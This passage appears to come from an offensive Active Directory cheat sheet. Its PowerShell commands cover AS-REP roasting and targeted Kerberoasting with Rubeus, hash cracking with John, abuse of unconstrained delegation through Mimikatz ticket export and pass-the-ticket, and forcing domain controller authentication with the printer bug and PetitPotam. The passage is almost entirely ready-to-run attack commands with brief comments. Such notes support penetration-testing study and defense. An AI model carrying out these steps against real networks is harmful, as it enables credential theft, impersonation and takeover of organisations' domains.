 ```powershell
# Specific user
Rubeus.exe asreproast /user:<user> /format:<john or hashcat> /domain:<domain> /outfile:<file>

# Users from a OU
Rubeus.exe asreproast /ou:<OU_name> /format:<john or hashcat> /domain:<domain> /outfile:<file>
```
### Targeted Kerberoasting Set SPN
---
With rights over a user, we can set a SPN to it, and then go for a AS-REPs attack.
```powershell
# Enumerate permissions for <group>
C:> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "<group>"}

# Check if user already has a SPN
C:> Get-DomainUser -Identity <user> | select serviceprincipalname

# Set SPN for the user
C:> Set-DomainObject -Identity <user> | Set @{serviceprincipalname='ops/whatever1'}

# Kerberoast the user with Rubeus
C:> Rubeus.exe kerberoast /outfile:targetedhashes.txt
C:> john.exe /wordlist=C:\wordlist.txt C:\targetedhashes.txt
```

### Uncostrained Delegation
---
With DA access to a host with Unconstrained Delegation enabled, when some user connects, the user TGT can be taken to be able to impersonate passig the ticket (ptt).
```powershell
# Find Server with Unconstraided Delegation Enabled
C:> . C:\AD\Tools\PowerView.ps1
C:> Get-DomainComputer -Unconstrained | select -ExpandProperty name

# Monitor incoming sessions on host
C:> Invoke-UserHunter -ComputerName <host> -Poll <seconds> -UserName <user> -Delay <interval> -Verbose

# Compromise the server and wait uuser to connect to server and then dump tokens on .kirbi files
C:> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Reuse the exported ticket with PTT
C:> Invoke-Mimikatz -Command '"kerberos::ptt C:<ticket_file_name>.kirbi"'
```
- Requisite for elevation using this technique, is to compromise a user with Admin Rights on the host

#### Printer Bug
```powershell
# Need shell in the server to compromise
# Launch Rubeus listener to capture TGT from DC 
C:> Rubeus.exe monitor /targetuser:<dc-name>$ /interval:5 /nowrap

# From a shell on our host, force DC auth to the server to compromise
C:> MS-RPRN.exe \\<DC_fqdn_name> \\<server_to_compromise_fqdn>
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - The RPC server is unavailable.     # This error is OK

# PetiPoam can be user as well. Does the same.
# USefull when no print spooler enabled
C:> PetitPotam.exe dcorp-appsrv dcorp-dc

# At this point, in Rubeus we got the TGT for DC auth.
# Copy the Base64EncodedTicket and use with Rubeus in a elevated shell from our host
```